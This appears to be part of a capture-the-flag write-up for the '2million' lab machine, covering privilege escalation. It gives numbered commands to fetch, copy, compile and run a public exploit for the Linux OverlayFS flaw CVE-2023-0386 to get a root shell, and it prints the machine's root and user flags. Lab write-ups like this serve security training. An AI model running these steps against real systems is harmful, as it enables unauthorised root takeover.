 ![](images/Pasted%20image%2020250106174135.png)

We are inside ssh, let's check our privileges using `sudo -l`:

![](images/Pasted%20image%2020250106174306.png)

We can not run sudo with this user, what about `find / -perm -4000 2>/dev/null`:


![](images/Pasted%20image%2020250106174453.png)

We found something really interesting, a `CVE-2023-0386` related file, if we read this CVE, this is what its about:

![](images/Pasted%20image%2020250106174601.png)

Let's find an exploit for this an execute it:

```ad-note

Exploit: [exploit](https://github.com/xkaneiki/CVE-2023-0386)

![](images/Pasted%20image%2020250106174731.png)
```


I will be using that exploit, let's get it and execute it in the machine in the way the author tells us:


```ad-hint
1. `git clone https://github.com/xkaneiki/CVE-2023-0386`
2. `zip -r exploit.zip CVE-2023-0386`
3. `scp exploit.zip admin@2million.htb:/tmp`
4. `cd /tmp`
5. `unzip exploit.zip`
6. `cd /tmp/CVE-2023-0386`
7. `make all`
8. `./fuse ./ovlcap/lower ./gc & ./exp`
9. `./exp`
```

After reproducing all the steps, we get a root shell:

![](images/Pasted%20image%2020250106175456.png)


Now we can read the root flag and the user flag:

![](images/Pasted%20image%2020250106175618.png)

![](images/Pasted%20image%2020250106175639.png)

```ad-note
root flag: `cca8ef6fecc788f8396049dc9a933d62`
user flag: `d16ba35dd56db9718ba007fbf1e2f0e4`
```


Just like that, machine is done, here are all the answers:

![](images/Pasted%20image%2020250106180211.png)

![](images/Pasted%20image%2020250106180236.png)

![](images/Pasted%20image%2020250106180250.png)

![](images/Pasted%20image%2020250106180258.png)

